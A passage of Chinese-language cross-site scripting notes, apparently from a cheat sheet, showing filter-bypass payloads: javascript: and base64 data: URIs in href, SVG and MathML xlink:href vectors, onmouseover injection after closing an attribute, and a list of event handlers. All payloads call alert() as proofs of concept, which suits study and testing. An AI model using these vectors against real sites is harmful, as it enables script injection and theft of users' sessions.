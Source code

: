         HTML的属性，如果被进行HTML实体编码(形如&#039;&#x27)，那么HTML会对其进行自动解码，从而我们可以在属性里以HTML实体编码的方式引入任意字符，从而方便我们在事件属性里以JS的方式构造payload。

        当然，也可以闭合属性后，然后再执行脚本。

     2. src/href/action/xlink:href/autofocus/content/data 等属性

        直接使用伪协议绕过。

        ```javascript
        javascript 伪协议： <a href=javascript:alert(2)>test</a>

        data 协议执行 javascript： <a href=data:text/html;base64,PHNjcmlwdD5hbGVydCgzKTwvc2NyaXB0Pg==>test</a>(Chrome被拦截，Firefox可以)

        urlencode 版本： <a href=data:text/html;%3C%73%63%72%69%70%74%3E%61%6C%65%72%74%2829%29%3C%2F%73%63%72%69%70%74%3E>(测试未通过)

        不使用 href 的另外一种组合来执行 js： <svg><a xlink:href="javascript:alert(14)"><rect width="1000" height="1000" fill="white"/></a></svg>（均可） 或者： 
          <math><a xlink:href=javascript:alert(1)>1</a></math>(Chrome不可，Firefox可以)
        ```

        如果不行，则测试添加事件进行触发。（首先还是需要闭合）

        如：`<a href="test.com" onmouseover=alert(1)>ClickHere</a>`

        ​

     3. on*事件中

        插入合乎逻辑的JS代码即可。也可以使用伪协议。

        常见事件

        ```js
        onload 
        onclick
        onunload 
        onchange 
        onsubmit 
        onreset 
        onselect 
        onblur 
        onfocus 
        onabort 
        onkeydown 
        onkeypress 
        onkeyup 
        ondbclick 
        onmouseover 
        onmousemove 
        onmouseout 
        onmouseup 
        onforminput 
        onformchange 
        ondrag 
        ondrop
        ```
